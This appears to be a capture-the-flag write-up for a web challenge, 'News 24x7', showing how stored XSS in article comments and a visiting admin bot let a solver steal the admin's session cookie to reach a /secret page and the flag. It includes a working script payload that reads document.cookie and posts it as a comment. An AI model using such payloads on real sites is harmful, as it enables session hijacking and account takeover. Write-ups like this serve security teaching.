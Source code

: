 # News 24x7

Total Solves - 40

Final Points - 218

## Description
Visit my opinionated news app today!

## Writeup
On opening the app and logging in you will notice a simple application. There are news articles and functionality to commend on news articles.

One can test that the comments were vulnerable to XSS.

Another thing to note is the `/robots.txt`

```
User-agent: *
Disallow: /secret
```
If you try to access `/secret`, it says " You need to be admin to view this."

Now there is scrolling text on the website that says an admin visits the page every minute to remove abusive comments.

Here one should realise that the XSS in comments can be used to steal admin's cookie which can then be used to access `/secret`.

Following script can be entered as input in comments

```html
<script>
var data = new FormData();

data.append('comment', document.cookie);

fetch('/article/1', {
    method: 'POST',
    mode: 'no-cors',
    body: data
})
</script>
```
After sometime, you will see a comment by admin containing his cookie. Use it to access `/secret` and you will see the flag.

## Flag
`CodefestCTF{st0r3d_X55_ftw_[a-zA-Z0-9]{9}}`
